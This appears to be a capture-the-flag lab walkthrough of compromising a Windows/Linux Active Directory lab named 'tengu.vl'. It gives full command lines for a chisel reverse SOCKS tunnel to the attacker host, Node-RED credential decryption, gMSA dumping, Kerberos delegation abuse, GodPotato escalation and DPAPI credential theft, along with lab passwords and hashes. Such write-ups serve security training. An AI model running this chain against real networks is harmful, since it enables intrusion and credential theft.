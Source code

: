
![](Tengu_Cover.png)


### INFO

```
Nmap scan report for 10.10.243.149
Host is up (0.19s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=DC.tengu.vl
| Not valid before: 2024-08-27T13:46:04
|_Not valid after:  2025-02-26T13:46:04
|_ssl-date: 2024-08-28T13:50:03+00:00; -2s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: TENGU
|   NetBIOS_Domain_Name: TENGU
|   NetBIOS_Computer_Name: DC
|   DNS_Domain_Name: tengu.vl
|   DNS_Computer_Name: DC.tengu.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2024-08-28T13:49:59+00:00
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

```
Nmap scan report for 10.10.243.150
Host is up (0.19s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=SQL.tengu.vl
| Not valid before: 2024-08-27T13:46:06
|_Not valid after:  2025-02-26T13:46:06
| rdp-ntlm-info: 
|   Target_Name: TENGU
|   NetBIOS_Domain_Name: TENGU
|   NetBIOS_Computer_Name: SQL
|   DNS_Domain_Name: tengu.vl
|   DNS_Computer_Name: SQL.tengu.vl
|   DNS_Tree_Name: tengu.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2024-08-28T13:50:38+00:00
|_ssl-date: 2024-08-28T13:50:43+00:00; -2s from scanner time.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

```
Nmap scan report for 10.10.243.151
Host is up (0.19s latency).

PORT     STATE SERVICE       VERSION
22/tcp   open  ssh           OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 86:a2:62:65:84:f4:ec:5b:a8:a8:a3:8f:83:a3:96:27 (ECDSA)
|_  256 41:c7:d4:28:ec:d8:5b:aa:97:ee:c0:be:3c:e3:aa:73 (ED25519)
1880/tcp open  vsat-control?
| fingerprint-strings: 
|   DNSVersionBindReqTCP, RPCCheck: 
|     HTTP/1.1 400 Bad Request
|     Connection: close
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Access-Control-Allow-Origin: *
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 1736
|     ETag: W/"6c8-alK4HUX6EE46WSbf+286KDcADEI"
|     Date: Wed, 28 Aug 2024 13:52:45 GMT
|     Connection: close
|     <!DOCTYPE html>
|     <html>
|     <head>
|     <meta charset="utf-8">
|     <meta http-equiv="X-UA-Compatible" content="IE=edge" />
|     <meta name="viewport" content="width=device-width, initial-scale=1, maximum-scale=1, user-scalable=0"/>
|     <meta name="apple-mobile-web-app-capable" content="yes">
|     <meta name="mobile-web-app-capable" content="yes">
|     <!--
|     Copyright OpenJS Foundation and other contributors, https://openjsf.org/
|     Licensed under the Apache License, Version 2.0 (the "License");
|     this file except in compliance with the License.
|     obtain a copy of the License at
|     http://www.apache.org/licenses/LICENSE-2.0
|     Unless required by applicable law or agreed to in writing, sof
|   HTTPOptions, RTSPRequest: 
|     HTTP/1.1 204 No Content
|     Access-Control-Allow-Origin: *
|     Access-Control-Allow-Methods: GET,PUT,POST,DELETE
|     Vary: Access-Control-Request-Headers
|     Content-Length: 0
|     Date: Wed, 28 Aug 2024 13:52:46 GMT
|_    Connection: close
```


```
└─# crackmapexec rdp ip_
RDP         10.10.243.149   3389   DC               [*] Windows 10 or Windows Server 2016 Build 20348 (name:DC) (domain:tengu.vl) (nla:True)
RDP         10.10.243.150   3389   SQL              [*] Windows 10 or Windows Server 2016 Build 20348 (name:SQL) (domain:tengu.vl) (nla:True)
```


Ok , The scenario is DC and SQL only got RDP port accessible from external network . And 3rd machine is linux with 1880 http and ssh port opened.


![](Node_Red.png)

Its Node-Red  ! ```Node-RED is a programming tool for wiring together hardware devices, APIs and online services in new and interesting ways. It provides a browser-based editor that makes it easy to wire together flows using the wide range of nodes in the palette that can be deployed to its runtime in a single-click.```


### NODE_RED


![](Rce_Node.png)



After some enumeration , found some credentials , config files . We can decrypt those  ! [Blog](https://blog.hugopoi.net/en/2021/12/28/how-to-decrypt-flows_cred-json-from-nodered-data/)

ChatGpt Made a cool script to decrypt the creds , Copy that to the victim machine.


![](Decrypt_Creds.png)

```
{"d237b4c16a396b9e":{"username":"nodered_connector","password":"DreamPuppyOverall25"}}nodered_
```

Now , we need to enumerate the network , some ports from the DC and SQL might only be accessible via the internal network . 


Upload Chisel to the machine , and start the reverse socks proxy !


``` Attacker
└─# ./chisel_ server --port 443 --reverse
```


```Victim
$ ./chisel_ client 10.8.0.148:443 R:socks
```



```
└─# proxychains -q impacket-mssqlclient tengu.vl/nodered_connector:DreamPuppyOverall25@10.10.250.86
```

![](Mssql_Access.png)


```
use Demo

SELECT * FROM demo.INFORMATION_SCHEMA.TABLES;

select * from Users;
```


![](Mssql_Creds.png)


![](Crak_Station.png)

Cool ! Its the domain user account ! Lets enumerate AD


```
└─# proxychains bloodhound-python --username t2_m.winters --password Tengu123 --domain tengu.vl --nameserver 10.10.250.85 --domain-controller DC.tengu.vl --collectionmethod all --zip
```


```
└─# ssh t2_m.winters@tengu.vl@10.10.250.87
```

t2_m.winters is member of linux_admin group. So its obvious we are root level user.


We can decode the krb5.keytab file i.e klist file  [with](https://github.com/sosdave/KeyTabExtract) . Lets copy the file to the victim and decrypt .


![](Decode_KeyTab.png)


Its the machine account hash NODERED$ . 


### SQL_SERVER


![](Node_Red_Privilege.png)

Now , That's cool. NODERED$ can read gmsa password . We gonna use this tool /  [script](https://github.com/micahvandeusen/gMSADumper)

```
└─# proxychains python gMSADumper.py -u 'NODERED$' -p 'd4210ee2db0c03aa3611c9ef8a4dbf49:d4210ee2db0c03aa3611c9ef8a4dbf49' -d tengu.vl -l dc.tengu.vl
```


![](../SENDAI_/GMSA_CREDS.png)

```
gMSA01$:::fb7788e6bfa32c568a9dba5490c49575
```



![](Allowed_To_Delegate.png)

Now , GMSA01$ is allowed to delegate to the SQL_ADMINS group and SQL.TENGU.VL computer. Lets abuse this.

![](Delegate_Allowed.png)



Impersonation administrator didnt worked, So we impersonated T1_M.WINTERS , who is member of SQL_Admins.

```
└─# proxychains -q impacket-getST -spn MSSQLSvc/SQL.tengu.vl -impersonate 'T1_M.WINTERS' -altservice cifs -hashes :fb7788e6bfa32c568a9dba5490c49575 'tengu.vl/gMSA01$' -dc-ip 10.10.172.245
```

![](M.Winters_Ccache.png)

```
└─# export KRB5CCNAME=T1_M.WINTERS@cifs_SQL.tengu.vl@TENGU.VL.ccache 
```

Lets login to the sql_server .

```
└─# proxychains -q impacket-mssqlclient -k sql.tengu.vl
```

We are admin and can run system commands , So lets get reverse shell and impersonate cause we got access via the sql server.


![](Cmd_Shell.png)


![](Privilge_SQL.png)

Now , We gonna privilege access with  [God Potato exploit !](https://github.com/BeichenDream/GodPotato)


Get Reverse shell as nt/authority !


![](SQL_Rooted.png)


Lets upload mimikatz and do some post-enumeration !


```
└─# proxychains -q crackmapexec smb 10.10.172.246 -u administrator -H 73db3fdd24bee6eeb5aac7e17e4aba4c --local-auth
```


### DOMAIN_ADMIN

We found that , c.fowler has recently logged-into this machine , and also a process running , So we can run  [sharp_dpapi](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/blob/master/SharpDPAPI.exe) to gain his credentials . 

```
PS C:\admin> .\SharpDPAPI.exe machinetriage /showall
```

![](Domain_Admin_Hound.png)



```
└─# proxychains evil-winrm -i 10.10.172.245 -u T0_c.fowler -p UntrimmedDisplaceModify25
```

This account is restricted to auth. with NTLM . Why not use kerberos authentication.


```
└─# proxychains impacket-getST -spn cifs/dc.tengu.vl tengu.vl/T0_c.fowler:UntrimmedDisplaceModify25 -dc-ip 10.10.172.245

└─# export KRB5CCNAME=T0_c.fowler@cifs_dc.tengu.vl@TENGU.VL.ccache 
```

```
└─# proxychains impacket-smbexec -k -no-pass dc.tengu.vl
```


![](Domain_Admin_Hound.png)

